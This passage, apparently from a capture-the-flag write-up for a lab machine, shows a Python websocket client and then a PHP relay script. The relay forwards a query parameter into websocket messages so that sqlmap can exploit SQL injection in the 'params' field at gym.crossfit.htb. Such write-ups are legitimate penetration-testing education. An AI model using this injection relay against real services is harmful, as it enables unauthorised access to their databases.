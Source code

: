 ```py
            payload = json.dumps({"message": "available", "params": args.params, "token": json_data["token"]})
        print(f"< {payload}")
        await ws.send(payload)
        msg = await ws.recv()
        print(f"> {msg}")


if __name__ == "__main__":
    try:
        if len(sys.argv) == 1:
            parser.print_help()
        else:
            asyncio.get_event_loop().run_until_complete(lets_talk())
    except KeyboardInterrupt:
        print(' KeyboardInterrupt')
```

While testing `params` parameter found sql injections.

**Boolean based Blind SQL Injection**

![](/assets/img/posts/crossFitTwo/boolen-blind-sqli.png)

**SQL UNION injection**

![](/assets/img/posts/crossFitTwo/UNION-sqli.png)


## SQL injection

### websocket client mitm server

Creating a php server based websocket client so we can automate sql injection with sqlmap.

* There is a library **[`textalk/websocket`](https://github.com/Textalk/websocket-php)**, We can use for websocket in php.

Install it in project folder
```php
composer require textalk/websocket
```

Create php script
```php
<?php

require 'vendor/autoload.php';

use WebSocket\Client;

$client = new WebSocket\Client("ws://gym.crossfit.htb/ws/");
$recv_token = $client->receive();
$token = json_decode($recv_token, true)["token"];
$payload = json_encode(array('message' => 'available', 'params' => $_GET['id'], 'token' => $token));
$client->send($payload);
```